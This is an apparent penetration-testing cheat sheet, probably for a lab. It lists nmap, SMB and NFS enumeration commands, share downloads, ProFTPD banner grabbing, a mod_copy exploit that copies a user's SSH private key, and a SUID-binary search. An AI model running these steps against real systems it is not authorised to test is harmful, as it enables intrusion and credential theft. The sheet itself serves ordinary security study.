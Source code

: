 # thisnthat cheat sheet
-- Open ports with versions
```
nmap -sC -sV $IP
```

-- How many open ports?
```
nmap $IP -vvv
```

-- Enumerate for SMB shares
SMB has two ports, 445 and 139.
```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $IP
```

-- Inspect an **SMB** share
```
smbclient //<ip>/anonymous
```

-- Recursively download the SMB share
```
smbget -R smb://<ip>/anonymous
```

-- show mount 
```
nmap -p <rpc_port> --script=nfs-ls,nfs-statfs,nfs-showmount $IP
```

-- get **ProFTPD** version
```
nc $IP 21
```

-- Searchsploit to find exploits. **Searchsploit** is basically just a command line search tool for exploit-db.com.

-- mod_copy exploit: SITE CPFR and SITE CPTO
```
nc $IP 21
SITE CPFR /home/<user>/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

-- find SUID binaries
```
find / -perm -u=s -type f 2>/dev/null
```